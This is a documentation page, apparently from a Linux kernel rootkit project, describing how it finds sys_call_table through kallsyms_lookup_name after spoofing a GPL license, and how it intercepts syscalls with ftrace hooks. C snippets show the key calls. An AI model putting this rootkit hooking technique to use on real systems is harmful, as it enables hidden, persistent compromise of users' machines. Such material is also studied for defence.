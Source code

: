 ```yaml
---
title: "Symbol Resolution & Ftrace Hooks"
description: "How we locate sys_call_table and intercept syscalls via ftrace"
icon: "code"
date: "2025-05-11T18:20:00+01:00"
lastmod: "2025-05-11T18:20:00+01:00"
draft: false
toc: true
weight: 20
---
```


# Symbol Resolution

1. We spoof a GPL license so the kernel exports `kallsyms_lookup_name()`:
   ```c
   MODULE_LICENSE("GPL");
   ```
2. At init, we call:
   ```c
   sys_call_table = (void **)kallsyms_lookup_name("sys_call_table");
   ```
   This gives us the address of the syscall table.

---

# Ftrace-Based Hooking

{{< alert context="info" icon="🔧" text="We use ftrace to hook without writing to kernel memory directly." />}}

For each target syscall:

1. Define an `ftrace_ops` with flags:
   ```c
   .func  = hook_trampoline,
   .flags = FTRACE_OPS_FL_SAVE_REGS |
            FTRACE_OPS_FL_IPMODIFY
   ```
2. Apply the filter:
   ```c
   ftrace_set_filter_ip(&ops, (unsigned long)orig_syscall, 0, 0);
   register_ftrace_function(&ops);
   ```
3. Our trampoline copies registers, calls `hook_fn()`, then jumps back to the original.

{{< tip >}}
Always unregister your ftrace functions in `cleanup_module()`:
```c
unregister_ftrace_function(&ops);
```
{{< /tip >}}

---

## Code Location

- `rootkit/hook/ftrace_hooks.c`  
- `rootkit/hook/syscall_list.h`
```
